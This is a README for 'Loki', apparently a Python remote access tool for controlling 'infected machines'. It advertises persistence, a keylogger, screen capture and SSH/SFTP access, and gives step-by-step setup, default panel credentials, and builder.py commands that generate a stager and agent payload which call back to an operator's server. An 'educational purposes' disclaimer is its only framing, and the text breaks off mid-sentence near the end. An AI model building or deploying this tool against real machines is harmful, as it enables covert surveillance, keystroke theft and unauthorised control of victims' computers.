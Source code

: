 # Loki

Loki is a simple **R**emote **A**ccess **T**ool.<br/>
Loki uses **RSA-2048** with **AES-256** to keep your communication with infected machines secure.<br/>

<img src="Screenshots/bots.png" atl=""/>

### Disclaimer

```
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

Loki, just like all my other repos is stricly for **educational** purposes.

### Requirements

-   Python **3.6.x** | **3.7.x** | **3.8.x**

### Server tested on

-   Windows 10
-   Kali Linux

### Bot tested on

-   Windows 10

### Payload generator tested on

-   Windows 10

### Features

-   Upload & Download
-   Chrome Launching
-   Persistence
-   Screenshare
-   Screenshot
-   Keylogger
-   SFTP
-   SSH

### Video from OG dev (enjoy the music!)

https://www.youtube.com/watch?v=UTfZlXGoJ5Y

### Installation

I reccommend you setup a new anaconda virtual environment for package management. As of December 2021, the best resource for installing Anaconda is downloading the [Miniconda](https://docs.conda.io/en/latest/miniconda.html) package for your particular machine and setup.

```shell
conda create --name botnet python=3.7
conda activate botnet
```

Once the env is activated (or if you like living recklessly and don't create a dedicated environment) you can install the necessary packages referencing the `requirements.txt`:

```shell
pip install -r requirements.txt
```

### Server side

1. Open `/lib/const.py` & configure your private and public IP's
2. Start loki.py
3. Navigate to http://localhost:5000
4. Login

    ```
    Username: loki
    Password: ikol
    ```

5. Start the server on the same IP as your private IP

### Generate a payload

Navigate to agent directory and run the following command to check all command line parameters `builder.py` accepts. 

```shell
python builder.py -h
```

Run the below to generate a standard agent.

```shell
python builder.py -i 127.0.0.1 -p 8080 -n testagent
```

**While not verified, it's likely the codebase will not compile inside a virtual environment**

Now, once the stager is generated (named `testagent`), move to the `output` directory and run the executable. 

```shell
cd output
./testagent
```

This will generate the agent payload, `testagent_`, in the same output directory. You'll likely need to change the permissions on the payload, so run the following:

```shell
chmod 754 testagent_
./testagent_
```

After a moment or two of waiting, you should see your 

### After connection

-   You can click the id of the bot once it connects

### FYI

-   The bot will call the server using the Public IP, not the private IP
-   The bot will call the server using the port specified on the server tab
